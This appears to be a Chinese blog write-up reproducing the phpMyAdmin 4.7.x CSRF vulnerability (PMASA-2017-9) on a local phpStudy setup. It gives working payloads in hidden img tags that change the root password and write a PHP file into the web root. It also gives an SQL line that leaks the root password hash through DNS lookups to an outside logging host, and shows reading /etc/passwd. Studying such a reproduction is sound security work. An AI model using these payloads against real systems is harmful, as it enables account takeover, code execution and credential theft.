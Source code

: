 ```yaml
---
title: phpMyAdmin 4.7.x CSRF漏洞复现
date: 2018-06-25 13:43:40
tags: "phpmyadmin"
---
```

phpMyAdmin是个知名MySQL/MariaDB在线管理工具，phpMyAdmin团队在4.7.7版本中修复了一个危害严重的CSRF漏洞（PMASA-2017-9），攻击者可以通过诱导管理员访问恶意页面，悄无声息地执行任意SQL语句。

## 0x00 环境准备
本地复现使用了phpstudy来搭建环境。PHPstudy版本为：phpStudy 2016.11.02。测试发现，选用低于5.5的php会导致phpmyadmin出现报错，本环境选的是php 5.5.38+Apache。配置好服务，端口后，我们的phpmyadmin就创建完成了。

![image](http://wx4.sinaimg.cn/mw690/a1a4875fgy1fsngyisaogj20os0guq5d.jpg)
## 0x01 漏洞利用
使用默认口令root/root登录phpmyadmin。可以看到，当前的phpmyadmin版本为4.7.6，符合利用条件。
#### 修改当前数据库用户密码
创建含有修改root用户密码语句的html文件。
``` html
<p>Hello World</p>
<img src="http://localhost:8888/phpMyAdmin/sql.php?db=mysql&table=user&sql_query=SET%20password
%20=%20PASSWORD(%27ekko.fun%27)" style="display:none;" />
```
使用浏览器打开html文件。

![image](http://wx3.sinaimg.cn/mw690/a1a4875fgy1fsngyj8r2zj20id06gt9p.jpg)

返回phpmyadmin页面，点击刷新（我本地测试并未自动退出）后发现已经登出系统，需要重新登陆。

![image](http://wx3.sinaimg.cn/mw690/a1a4875fgy1fsngyjo3e7j20n70jfae9.jpg)

使用刚刚修改的密码ekko.fun登陆成功。
#### 写文件
创建包含写文件语句的html文件。
``` html
<p>Hello World</p>
<img src="http://localhost:8888/phpMyAdmin/sql.php?db=mysql&table=user&sql_query=select '<?php phpinfo();?>' into outfile 'D:\\phpStudy\\WWW\\phpMyAdmin\\ekko.php'；" style="display:none;" />
```
第一次执行未成功，查看报错信息为：
``` 
Error Code: 1290. The MySQL server is running with the --secure-file-priv option
```
百度得到解决方案：
```
修改my.ini配置文件，重新指定安全路径。 
该配置文件在windows上的路径为D:\phpStudy\MySQL\my.ini，打开之后找到(添加)secure-file-priv="D:\phpStudy\WWW\phpMyAdmin"
将后面的路径指向上传文件或导出文件的父级路径即可，或者改为空
```
改好配置后，重启下服务，使用sql查询下，发现已经生效。

![image](http://wx3.sinaimg.cn/mw690/a1a4875fgy1fsngyk4obbj20dc074q4i.jpg)

再次访问构造的html文件。稍等片刻访问http://localhost:8888/phpMyAdmin/ekko.php

![image](http://wx3.sinaimg.cn/mw690/a1a4875fgy1fsngykvqo3j20qc0gedoq.jpg)
#### 查询数据
mysql提供了load_file()函数来支持读取文件内容的操作。比如读取文件/etc/passwd内容等，对应得sql语句为：
``` sql
select load_file('/etc/passwd')
```
但是对于CSRF来说，该操作在目标机器上执行，我们无法获取文件读取得结果。而load_file()在Windows下支持从网络共享文件夹中读取文件，如'\\192.168.1.100\share\vulnspy.txt'。网络共享文件的地址处不仅可以填写IP还可以填写域名，我们可以通过DNS解析来获取查询的数据。
此处需要用到 DNSLOG 之类的工具：https://github.com/BugScanTeam/DNSLog， 这类工具可以记录域名的 DNS 解析记录。

比如通过DNS解析来获取当前 MySQL root 用户密码，对应的SQL语句为：
``` sql
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT LEFT(PASSWORD,5) AS password FROM mysql.user WHERE user='root' LIMIT 1),'.0nv2wl.ceye.io\\test'));
```
我本地测试此条未通过，执行```SELECT database()```通过。

![image](http://wx1.sinaimg.cn/mw690/a1a4875fgy1fsngyl91t1j20dk02l0sx.jpg)
## 0x002 总结
这个 phpMyAdmin 的 CSRF 漏洞利用有点类似 SQL 盲注的利用，但是对于漏洞触发的时间不可控（即不知道管理员何时会访问含有恶意代码的页面），因此需要更加通用的利用方式。通过该实验，不仅了解该漏洞的内容，还可以更加熟悉CSRF漏洞的利用。


PS:为什么百度搜到的图片居中方法用不起来啊。。。
